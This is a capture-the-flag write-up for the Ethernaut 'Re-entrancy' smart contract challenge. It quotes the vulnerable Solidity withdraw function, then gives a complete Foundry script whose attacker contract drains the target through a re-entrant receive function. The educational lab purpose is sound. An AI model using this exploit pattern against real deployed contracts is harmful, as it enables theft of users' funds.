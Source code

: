 # Re-entrancy   
In this challenge, the goal is to drain all the funds from the instance contract. The name of the challenge provides a strong hint about the vulnerability we need to exploit: re-entrancy.

The issue lies in the `withdraw` function of the contract. Specifically, the function performs an external call (`call`) to send Ether before updating the `balances` mapping. This creates a classic re-entrancy vulnerability.
   
```solidity
function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }
```
To solve this challenge, we can deploy a malicious contract that exploits the re-entrancy vulnerability. The contract will implement a `receive` function that repeatedly calls the `withdraw` function of the target contract before the `balances` mapping is updated. This allows us to drain the contract's funds in a single transaction.

Here’s the script I used to automate the attack:  
```solidity
//SPDX-License-Identifier: MIT

pragma solidity 0.8.20;

import {Script} from "forge-std/Script.sol";

interface Ivictim { function withdraw(uint256 _amount) external; }

contract AttackScript is Script {
	AttackContract attackContract;
	
	function run() public {
	vm.startBroadcast();
	attackContract = new AttackContract{value: 0.001 ether}( /* Your instance address */ );
	attackContract.attack();
	vm.stopBroadcast();
}

}

contract AttackContract {
	address victim;	
	uint256 amount;	

	constructor(address _victim) payable {
	victim = _victim;
}
	receive() external payable {
	try Ivictim(victim).withdraw(0.001 ether) {} catch {}
}

	function attack() external {
	victim.call{value: 0.001 ether}(abi.encodeWithSignature("donate(address)", address(this)));
	victim.call(abi.encodeWithSignature("withdraw(uint256)", 0.001 ether));
	msg.sender.call{value: 0.002 ether}("");
}
}
```
